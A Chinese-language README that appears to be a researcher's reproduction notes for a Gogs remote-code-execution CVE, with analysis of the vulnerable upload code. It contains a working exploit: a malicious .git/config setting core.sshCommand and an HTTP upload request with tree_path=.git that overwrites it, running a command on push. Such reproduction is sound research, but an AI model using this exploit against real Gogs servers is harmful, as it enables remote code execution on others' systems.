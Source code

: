 # README

## 前言

gogs的rce CVE，第一次复现go的项目漏洞，蛮有意思的。

环境配置参考最后的文章即可。

## 前置知识

关于git的config：https://git-scm.com/docs/git-config

core.sshCommand的作用就是在设置了这个的时候，git fetch和git push将调用core.sshCommand指定的命令。所以我们最后要执行的恶意漏洞就是写在core.sshCommand里了。

## EXP

```
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
    ignorecase = true
    precomposeunicode = true
    sshCommand = calc
[remote "origin"]
    url = git@github.com:torvalds/linux.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master
```



## 分析

gogs这个上传文件功能的思路是，将文件传到一个临时文件夹中，然后把目标的那个repository复制到一个临时文件夹里面，再把传上来的那个文件移动到这个临时文件夹，然后一系列的`git add,commit,push`来实现文件上传。

第一步上传的时候，存储的文件夹和文件名不可控：

![image-20220526153509860](README.assets/image-20220526153509860.png)

然后点击提交变更，抓包将`tree_path`设置为`.git`：

```http
POST /feng/resp2/_upload/master/ HTTP/1.1
Host: 192.168.142.1:3000
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: XSRF-TOKEN=657bd337-cfca-4d51-8032-39b8bc891ed5; JSESSIONID=BB6E0FB65211F1A2DACF8A81D5756F24; lang=zh-CN; gogs_awesome=feng; gogs_incredible=225e885629de91c72da07b99743587260b73af73a6c80cb278fffb69143f8918; i_like_gogs=9188516cdbe4009c; redirect_to=%252Ffavicon.ico
Connection: close

_csrf=u3zP_boVFMWNS-koyEv8xpSv06g6MTY1MzU1MDQ2MDczMTAwODEwMA&tree_path=.git&commit_summary=&commit_message=&commit_choice=direct&new_branch_name=
```

跟进代码可以发现那个文件第二步，遍历upload目录下的文件来移动，先检查上传的原始文件名是否有`.git`，所以想要覆盖`.git/config`不能从这里考虑：

```go
		// Prevent copying files into .git directory, see https://gogs.io/gogs/issues/5558.
		if isRepositoryGitPath(upload.Name) {
			continue
		}
```

![image-20220526153907476](README.assets/image-20220526153907476.png)

没有的话就拼接成`targetPath`：

```go
targetPath := path.Join(dirPath, upload.Name)
```

而`dirPath`则是这样来的：

```go
	localPath := repo.LocalCopyPath()
	dirPath := path.Join(localPath, opts.TreePath)
```

拼接上了我们传的`TreePath`，得到的targetPath是`C:\Users\15997\AppData\Local\Temp\GoLand\data\tmp\local-repo\2/.git/config`，成功覆盖。

之后执行push，成功触发rce：

![image-20220526155131496](README.assets/image-20220526155131496.png)

总的来说这个思路非常的有意思。

## 参考文章

https://xz.aliyun.com/t/11302